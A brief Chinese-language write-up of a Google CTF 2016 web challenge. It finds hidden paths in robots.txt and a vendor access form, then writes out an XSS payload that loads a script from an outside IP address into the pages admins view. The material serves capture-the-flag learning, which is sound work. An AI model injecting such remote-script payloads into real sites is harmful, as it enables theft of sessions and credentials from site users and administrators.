 # Google CTF 2016 Web

1. Wallowing Wallabies - Part One
    - 题面上可以使用的功能为零，源码里也没有什么切入点。
    - 查看各种套路，发现`robots.txt`
        ```
        User-agent: *
        Disallow: /deep-blue-sea/
        Disallow: /deep-blue-sea/team/
        # Yes, these are alphabet puns :)
        Disallow: /deep-blue-sea/team/characters
        Disallow: /deep-blue-sea/team/paragraphs
        Disallow: /deep-blue-sea/team/lines
        Disallow: /deep-blue-sea/team/runes
        Disallow: /deep-blue-sea/team/vendors
        ```
    - 发现其中`/deep-blue-sea/team/vendors`可以访问，页面内容为：
      > Hello!
      > If you've been directed to this webpage; you have been requested to file out for vendor level access to our system.
      > To request access; please fill out your form, and an admin will review your application as soon as possible.

    - 预计会有XSS漏洞出现，随便点东西提交：
      > Thank you, your request has been received
      > Your message to the admins is as follows:
      > !!! Expecting to find '<script src=' in your input -- please re-read the level challenge.

    - So赤果果的提示，构造playload `<script src="http://104.131.23.191/xss.js"></script>`

    - [Google CTF – Web 1 – Wallowing Wallabies – Part One](http://buer.haus/2016/05/01/google-ctf-web-1-wallowing-wallabies-part-one/)
2.
